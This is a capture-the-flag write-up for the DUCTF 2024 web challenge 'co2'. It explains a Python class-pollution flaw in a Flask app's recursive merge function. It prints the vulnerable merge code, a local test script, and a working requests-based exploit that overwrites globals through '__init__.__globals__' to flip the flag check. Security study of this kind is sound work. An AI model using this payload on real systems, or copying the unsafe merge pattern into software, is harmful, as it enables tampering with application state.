 # co2

## Description

A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.

Author: n00b.master.


## Files

* [co2.zip](files/co2.zip)

## Solution

We are given a simple blog website with some basic functionality: the ability to register, the ability to create posts, and the ability to leave feedback. I started by taking a look at the source code, and everything looked good for the most part, until I noticed a comment in `app/routes.py`:

```python
# Not quite sure how many fields we want for this, lets just collect these bits now and increase them later. 
# Is it possible to dynamically add fields to this object based on the fields submitted by users?
class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""
```

"dynamically add fields" sounds pretty interesting. Looking further into the feedback route:

```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200
```

It uses the `merge` function to merge the data from the request into the `Feedback` object. Let's quickly check the `merge` function:

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

This immediately reminded me of JavaScript's `prototype pollution` vulnerability, but I wasn't sure if this existed in Python. I copied the merge function and googled it, and found a blog posting detailing [Prototype Pollution in Python](https://blog.abdulrah33m.com/prototype-pollution-in-python/)! Huge shoutout to Abdulrah33m for all the research and teaching me something new! So, we know it's vulnerable, but what is the flag condition? 

```python
flag = os.getenv("flag")

@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

My first intuition was set the flag environment variable to true. I created a quick test script utilizing the logic from the blog post:

```python

class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

def local_solve():
    print(os.getenv("flag"))
    obj = Feedback()
    exploit = {
        "__init__": {
            "__globals__": {
                "os": {
                    "environ": {
                        "flag": "true"
                    }
                }
            }
        }
    }
    merge(exploit, obj)
    print(os.getenv("flag"))

local_solve()
```

And it worked! I was able to get from `None` to `true`. However, when testing this payload on the actual remote server, I was not able to get the flag. After some thinking, I realized that that this change is not persistent. The `get_flag` endpoint checks the value of the global variable `flag`, which is set to `os.getenv("flag")` when the server starts. This means that even if we change the environment variable, the server will still check the original value. So, we need to find a way to change the value of the global variable `flag`. This is actually simpler than setting the environment variable, as we can just set the value of the global variable directly.

```python
import json
import requests

def remote_solve():
    cookies = {
        'session': 'redacted'
    }
    exploit = {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
    url = 'https://web-co2-630afc019691685b.2024.ductf.dev'
    r = requests.post(url+"/save_feedback", cookies=cookies, json=exploit)
    print(r.text)
    r = requests.get(url+"/get_flag", cookies=cookies)
    print(r.text)
    
remote_solve()
```

And we get the flag!